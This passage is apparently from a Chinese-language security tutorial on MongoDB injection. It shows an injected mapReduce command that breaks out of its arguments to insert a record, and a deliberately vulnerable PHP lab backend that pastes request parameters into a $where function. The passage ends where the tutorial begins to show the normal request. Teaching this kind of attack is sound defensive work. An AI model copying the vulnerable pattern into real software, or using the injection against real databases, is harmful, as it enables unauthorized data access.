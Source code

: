 -   最终数据库执行如下

```plain
db.stores.mapReduce(function() {
    # map
    for (var i = 0; i < this.items.length; i++) {
        emit(this.name, this.items[i].a);
    }
 },
    # reduce inject
    function(kv) { return 1; }, 
    # opt inject
    { out: 'x' }
);
db.injection.insert({success:1});
return 1;
db.stores.mapReduce(
    # map inject
    function() { { emit(1,1); } }, 
    # reduce
    function(name, sum) { return Array.sum(sum); },   
    # opt
    { out: 'totals' }                    
);
```

-   靶场`demo1`

后端代码类似如下

```plain
$m = new MongoClient();
$db = $m->test;
$collection = $db->users;
  $query_body ="
        function q() {
            var username = ".$_REQUEST["username"].";
            var password = ".$_REQUEST["password"].";if(username == 'weiyi'&&password == '123456') return true; else{ return false;}}
";  
$result = $collection->find(array('$where'=>$query_body));
$count = $result->count();
$doc_failed = new DOMDocument();
$doc_failed->loadHTMLFile("failed.html");
$doc_succeed = new DOMDocument();
$doc_succeed->loadHTMLFile("succeed.html");
```

其中为了演示方便，账号密码写死为`weiyi / 123456`

-   正常的请求如下
